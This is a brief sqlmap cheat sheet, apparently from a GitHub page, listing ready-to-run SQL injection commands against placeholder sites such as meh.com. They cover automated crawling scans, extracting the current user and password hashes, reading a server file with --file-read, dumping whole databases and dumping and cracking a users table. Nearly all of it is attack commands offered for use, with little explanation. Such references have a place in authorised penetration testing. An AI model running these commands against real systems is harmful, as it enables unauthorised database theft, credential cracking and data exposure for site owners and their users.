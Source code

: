 b4b9b02e6f09a9bd760f388b67351e2b

SQLMap Examples
A mini SQLMap cheat sheet:

COMMAND	DESCRIPTION
sqlmap -u http://meh.com --forms --batch --crawl=10 
 --cookie=jsessionid=54321 --level=5 --risk=3

Automated sqlmap scan

 sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE 
 --level=3 --current-user --current-db --passwords 
 --file-read="/var/www/blah.php" 

Targeted sqlmap scan

sqlmap -u "http://meh.com/meh.php?id=1" 
--dbms=mysql --tech=U --random-agent --dump 

Scan url for union + error based injection with mysql backend
and use a random user agent + database dump

sqlmap -o -u "http://meh.com/form/" --forms

sqlmap check form for injection

sqlmap -o -u "http://meh/vuln-form" --forms 
 -D database-name -T users --dump

sqlmap dump and crack hashes for table users on database-name.
